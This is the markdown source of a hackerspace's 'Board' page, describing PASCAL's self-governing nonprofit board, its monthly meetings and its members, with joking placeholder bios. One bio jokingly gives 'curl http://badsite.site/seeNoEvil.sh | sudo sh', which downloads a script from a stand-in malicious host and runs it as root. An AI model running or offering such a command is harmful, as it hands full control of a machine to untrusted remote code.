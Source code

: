 ```yaml
---
title: "The PASCAL Board"
description: " "
draft: false
layout: single
---
```


PASCAL is overseen by a board. We technically _have_ to be to be a nonprofit organization. Those board members serve two year terms and are self-governed, meaning new board members are voted for, and current board members can be reaffirmed by, the current board. Board members serve staggered two year terms, with no specific term limit.

Our board meetings are typically held at least once a month, usually in the hackerspace itself. If you'd like to attend a board meeting, just shoot an email to [whowatchesthehackers@pascalpdx.org](mailto:whowatchesthehackers@pascalpdx.org), and we'll tell you when/where the next one is.

<br />
<div style="text-align:center;">
<h4 style="color:#333;">Current Board of PASCAL</h4>
<hr>
<h5 style="color:Azure;">Brett "Bits" Aulabaugh</h5>
<h6>Board President</h6>
<p style="font-size:small;">(Currently engaged in Megaman Battle Network hacking.)</p>
<br />
<h5 style="color:Azure;">"Wireglitch"</h5>
<h6>Board Secretary</h6>
<p style="font-size:small;">> (Fabricate Backstory)</p>
<br />
<h5 style="color:Azure;">Dick Temple</h5>
<h6>Board Treasurer</h6>
<p style="font-size:small;">> (Add padding)</p>
<br />
<h5 style="color:Azure;">"MrDe4d"</h5>
<p style="font-size:small;">> (Copypasta for the ages)</p>
<br />
<h5 style="color:Azure;">Lucy Aulabaugh</h5>
<p style="font-size:small;">> (Install history_generator.sh with 'curl http://badsite.site/seeNoEvil.sh | sudo sh' )</p>
<br />
<h5 style="color:Azure;">"Loki"</h5>
<p style="font-size:small;">> (Quantum word rearrangement commences. All of the backstories that have ever been or ever could be suddenly exist simultaneously)</p>
<br />
<!-- I'll update this in a couple days probably. -Brett -->
</div>
